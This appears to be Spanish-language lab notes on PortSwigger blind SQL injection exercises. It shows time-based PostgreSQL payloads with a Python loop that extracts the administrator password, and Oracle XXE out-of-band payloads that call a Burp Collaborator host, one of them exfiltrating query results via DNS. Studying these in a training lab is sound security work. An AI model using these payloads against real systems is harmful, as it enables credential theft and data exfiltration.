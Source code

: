 Sabemos una vez mas que estamos andre un postgresql, pues nos coge el comando `pg_sleep(5)--` asi que ahora toca crear el comando para iterar las contraseñas:

```sql
||(SELECT CASE WHEN substring(password,%d,1)='%s' then pg_sleep(3) else pg_sleep(0) end from users where username='administrator')-- -
```

```python
# Una vez más modificamos el trackingId y la variable if:
cookies = {
    'TrackingId': "FMbisLX5v6aPM6Gb'||(SELECT CASE WHEN substring(password,%d,1)='%s' then pg_sleep(3) else pg_sleep(0) end from users where username='administrator')-- -" % (i, j),
    'session': 'ojpZLXsnFHObkno02UsBT5VE1DLsR4PG'
}
if time_end - time_start > 3:
    password += j
    p2.status(password)
    break

# En este caso, la pagina tardará X segundos en responder si la query que le mandamos es correcta, asi que vamos a iterar una vez más la contraseña del usuario administrator dentro de la BBDD y guardarla en la variable 
password
# No obstante, hay dos variables:
time_end & time_start
# Estas las usamos para medir el tiempo en X momento de la ejecución del programa, por lo que hemos de definir estas variables en dos momentos diferentes del programa. 
```

## Exploiting blind SQL injection using out-of-band (OAST) techniques

Como sabemos que el trackingID es vulnerable, vamos a interceptarlo con burpsuite y modificarlo:

```sql
trackingId=x'(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)-- -
```

```sql
-- Este comando lo hemos sacado del cheatsheet que portswigger nos proporciona, y ahora lo unico que nos queda es modificar el apartado de BURP-COLLABORATOR-SUBDOMAIN y URL-Encodear la cookie, quedándonos de esta manera:
trackingId=x'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//bbqdd9nvupvm1cfshjcw6evlnctfh4.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--+-
```

## Blind SQL injection with out-of-band data exfiltration

Este caso es muy parecido al anterior. No obstante, además de hacer un DNS LookUp tenemos la posibilidad de introducir querys. Una vez mas, cojamos el comando del cheatsheet de portswigger:

```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual 
-- Este comando es para oracle, pues sabemos que este es el gestor que está detrás de la BBDD. Si fuese Microsoft, PostgreSQL o MySQL, deberiamos ejecutar otro comando. 
```
